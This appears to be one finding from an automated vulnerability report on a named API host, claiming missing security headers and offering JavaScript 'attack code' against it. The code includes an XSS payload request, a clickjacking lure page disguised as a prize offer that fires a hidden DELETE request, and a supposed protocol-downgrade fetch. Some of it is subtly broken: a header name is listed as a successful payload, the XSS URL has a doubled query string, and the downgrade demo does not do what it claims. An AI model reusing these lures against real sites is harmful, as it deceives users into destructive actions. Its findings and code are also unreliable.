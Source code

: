 ### 11. Security Headers Vulnerability

**🎯 Target:** `https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false`

**📝 Description:** Missing security headers expose the application to various attacks including XSS, clickjacking, and protocol downgrade attacks.

**💥 Impact:** XSS, clickjacking, protocol downgrade, MIME confusion attacks, information disclosure

**🔍 CVSS Score:** 6.5 (Medium)

**📊 CVSS Details:**
- **Attack Vector:** Network
- **Complexity:** Low
- **Privileges Required:** None
- **User Interaction:** Required
- **Scope:** Unchanged
- **Confidentiality:** Low
- **Integrity:** Low
- **Availability:** None

**🔴 Priority:** Medium - Within 1 month

**🎯 Successful Payloads:**
1. `Access-Control-Allow-Headers`

**⚔️ Attack Code (How to Simulate):**
```javascript
// Security Headers Attack Code
// 1. XSS Attack (if CSP missing)
const xssPayload = "<script>alert('XSS')</script>";
fetch("https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false?q=" + encodeURIComponent(xssPayload));

// 2. Clickjacking Attack (if X-Frame-Options missing)
const clickjackingPage = `
<!DOCTYPE html>
<html>
<head><title>Free Prize!</title></head>
<body>
    <h1>🎁 Click for free prize!</h1>
    <iframe src="https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false" style="opacity:0.1; position:absolute; top:50px; left:50px;"></iframe>
    <button onclick="triggerDelete()" style="position:absolute; top:50px; left:50px; z-index:1000;">
        🎁 CLAIM PRIZE
    </button>
    <script>
        function triggerDelete() {
            fetch("https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false", {method: "DELETE"});
        }
    </script>
</body>
</html>`;

// 3. Protocol Downgrade (if HSTS missing)
// Attacker intercepts HTTPS and forces HTTP
fetch("https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false".replace('https://', 'http://'));
```

